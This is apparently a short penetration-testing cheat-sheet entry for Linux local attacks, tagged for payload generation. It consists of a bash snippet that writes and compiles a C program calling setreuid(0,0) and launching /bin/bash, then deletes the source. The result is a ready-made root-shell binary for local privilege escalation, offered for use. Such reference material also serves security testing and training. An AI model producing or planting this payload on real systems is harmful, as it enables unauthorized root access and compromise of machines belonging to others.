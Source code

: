 # C
% c, shell

## generate shell bash bin
#plateform/linux #target/local  #cat/CODE/SAMPLE #cat/ATTACK/GENERATE_PAYLOAD 

```bash
echo 'int main(void){setreuid(0,0); system("/bin/bash"); return 0;}' > pwn.c;
gcc pwn.c -o <filename|shell>;
rm pwn.c
```
